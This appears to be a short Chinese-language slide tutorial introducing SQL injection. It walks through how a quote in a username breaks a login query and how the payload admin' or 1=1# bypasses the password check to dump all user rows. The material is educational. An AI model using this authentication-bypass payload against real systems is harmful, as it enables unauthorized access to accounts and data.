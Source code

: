 假設拼出來的 SQL 指令長這樣

```sql
SELECT * from Users
  where user = 'admin' and password = md5('meow');
```

---

密碼不對啥都沒有

![空空der](https://i.imgur.com/WOeMBJM.png)

---

字串是用單引號包的呢

那在參數裡加個 `'` 好了

帳號: `admin'` 密碼: meow

```sql
SELECT * from Users
  where user = 'admin'' and password = md5('meow');
```

---

上色爆炸啦

這行拿去跑會噴錯誤

![語法錯誤](https://i.imgur.com/nIMeDb6.png)

---

那如果說我們故意把他湊成有意義的呢

---

帳號: `admin' or 1=1#'` 密碼: meow

```sql
SELECT * from Users
  where user = 'admin' or 1=1#'' and password = md5('meow');
```

> 上面那個是語法 highlight 的問題 `#` 後面應該會是註解色

---

OOPS

![滑進去](https://i.imgur.com/QT9mOZK.png)

---

這是最基本的邏輯注入

讓他倒出全部的資料
